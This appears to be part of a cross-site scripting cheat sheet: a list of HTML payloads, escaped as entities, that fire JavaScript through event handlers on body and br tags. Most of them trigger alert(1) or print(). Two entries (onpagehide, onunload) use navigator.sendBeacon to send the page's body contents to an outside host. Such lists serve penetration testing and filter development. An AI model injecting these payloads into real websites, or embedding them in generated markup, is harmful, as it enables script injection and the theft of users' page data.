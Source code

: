 &lt;body onmousedown="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmouseenter="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmouseleave="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmousemove="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmouseout="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmouseover="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmouseup="alert(1)"&gt;test&lt;/body&gt;
&lt;body onmousewheel=alert(1)&gt;requires scrolling
&lt;body onpagehide=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)&gt;
&lt;body onpageshow=alert(1)&gt;
&lt;body onpaste="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onpointerdown=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerenter=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerleave=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointermove=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerout=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerover=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerrawupdate=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpointerup=alert(1)&gt;XSS&lt;/body&gt;
&lt;body onpopstate=print()&gt;
&lt;body onresize="print()"&gt;
&lt;body onscroll=alert(1)&gt;&lt;div style=height:1000px&gt;&lt;/div&gt;&lt;div id=x&gt;&lt;/div&gt;
&lt;body onselectionchange=alert(1)&gt;select some text
&lt;body onselectstart=alert(1)&gt;select some text
&lt;body ontouchend=alert(1)&gt; 
&lt;body ontouchmove=alert(1)&gt; 
&lt;body ontouchstart=alert(1)&gt; 
&lt;body onunhandledrejection=alert(1)&gt;&lt;script&gt;fetch('//xyz')&lt;/script&gt;
&lt;body onunload=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)&gt;
&lt;body onwheel=alert(1)&gt;
&lt;br draggable="true" ondrag="alert(1)"&gt;test&lt;/br&gt;
&lt;br draggable="true" ondragend="alert(1)"&gt;test&lt;/br&gt;
&lt;br draggable="true" ondragenter="alert(1)"&gt;test&lt;/br&gt;
&lt;br draggable="true" ondragleave="alert(1)"&gt;test&lt;/br&gt;
&lt;br draggable="true" ondragstart="alert(1)"&gt;test&lt;/br&gt;
&lt;br id=x tabindex=1 onactivate=alert(1)&gt;&lt;/br&gt;
&lt;br id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/br&gt;
&lt;br id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/br&gt;&lt;input autofocus&gt;
&lt;br id=x tabindex=1 ondeactivate=print()&gt;&lt;/br&gt;&lt;input id=y autofocus&gt;
&lt;br id=x tabindex=1 onfocus=alert(1)&gt;&lt;/br&gt;
&lt;br id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/br&gt;
&lt;br onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;br onbeforecopy="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onbeforecut="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onbeforepaste="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;br onblur=alert(1) tabindex=1 id=x&gt;&lt;/br&gt;&lt;input autofocus&gt;
&lt;br onclick="alert(1)"&gt;test&lt;/br&gt;
&lt;br oncontextmenu="alert(1)"&gt;test&lt;/br&gt;
&lt;br oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;br oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;br ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/br&gt;
&lt;br onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/br&gt;&lt;input autofocus&gt;
&lt;br onkeydown="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onkeypress="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onkeyup="alert(1)" contenteditable&gt;test&lt;/br&gt;
&lt;br onmousedown="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmouseenter="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmouseleave="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmousemove="alert(1)"&gt;test&lt;/br&gt;
&lt;br onmouseout="alert(1)"&gt;test&lt;/br&gt;